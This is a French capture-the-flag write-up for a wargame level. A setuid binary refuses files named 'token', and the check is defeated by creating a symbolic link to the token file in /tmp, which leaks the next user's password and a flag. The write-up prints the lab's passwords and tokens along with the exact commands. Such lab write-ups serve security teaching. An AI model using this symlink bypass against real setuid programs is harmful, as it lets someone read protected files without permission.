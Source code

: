 # Level08: Exploit de lien symbolique contre la condition 'token'

> login:password -> *`level08:fiumuikeil55xe9cu4dood66h`*
```
:~$ su level08
Password:fiumuikeil55xe9cu4dood66h
```
---

```
:~$ pwd
/home/user/level08
```

```
:~$ ls -la
...
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
...
```

Le Home contient un binaire et un fichier token:

```
:~$ ./level08
./level08 [file to read]

:~$ cat token
cat: token: Permission denied

:~$ ./level08 token
You may not access 'token'
```

On remarque que le binaire prend en paramétre un fichier et le lis, mais ne peux pas lire le fichier `token`.
Si on utilise la commande `strings level08` :

```
...
%s [file to read]
token
You may not access '%s'
Unable to open %s
Unable to read fd %d
...
```

On peux donc supposer qu'il ne le lis pas, uniquement parce qu'il porte le non `token`. Nous allons créer un lien symbolique afin que le fichier puisse être lu.

```
:~$ ln -s ~/token /tmp/flag08
:~$ ./level08 /tmp/flag08
quif5eloekouj29ke0vouxean
```

Le fichier `token` a pu être lu grâce à ce lien symbolique, il nous suffit maintenant de nous connecter sur l'user `flag08` avec le résultat obtenu puis de lancer un `getflag`

```
:~$ su flag08
Password:
Don't forget to launch getflag !

:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

Le flag nous permet de se connecter au level09
`level09:25749xKZ8L7DkSCwJkT9dyv6f`